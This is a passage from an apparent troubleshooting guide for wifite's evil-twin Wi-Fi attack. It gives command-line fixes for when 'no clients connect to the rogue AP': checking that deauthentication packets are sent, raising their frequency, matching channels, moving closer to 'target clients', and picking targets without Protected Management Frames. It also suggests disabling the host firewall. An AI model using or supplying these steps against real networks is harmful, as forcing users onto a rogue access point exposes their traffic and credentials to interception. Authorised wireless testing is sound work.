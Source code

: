 3. **Check for firewall conflicts:**
   ```bash
   # Temporarily disable firewall
   sudo ufw disable
   sudo systemctl stop firewalld
   ```

4. **Verify iptables installation:**
   ```bash
   sudo iptables -L
   ```

---

## Client Connection Issues

### Problem: No clients connecting to rogue AP

**Symptoms:**
- Rogue AP starts successfully
- Deauth packets are being sent
- No clients connect after several minutes

**Solution:**

1. **Verify deauth is working:**
   ```bash
   # Run with verbose mode
   sudo wifite --eviltwin -vv
   
   # Look for "Sending deauth" messages
   ```

2. **Check signal strength:**
   ```bash
   # Your rogue AP needs stronger signal than legitimate AP
   # Move closer to target clients
   # Move away from legitimate AP
   
   # Check signal levels
   sudo airodump-ng wlan0mon
   ```

3. **Verify channel:**
   ```bash
   # Ensure rogue AP is on same channel as target
   iwconfig wlan1 | grep Channel
   ```

4. **Increase deauth interval:**
   ```bash
   # Send deauth packets more frequently
   sudo wifite --eviltwin --eviltwin-deauth-interval 3
   ```

5. **Check for PMF (Protected Management Frames):**
   ```bash
   # If target uses 802.11w (PMF), deauth won't work
   # Look for "PMF: Required" in scan results
   
   # PMF prevents deauth attacks - no workaround
   # Try a different target without PMF
   ```
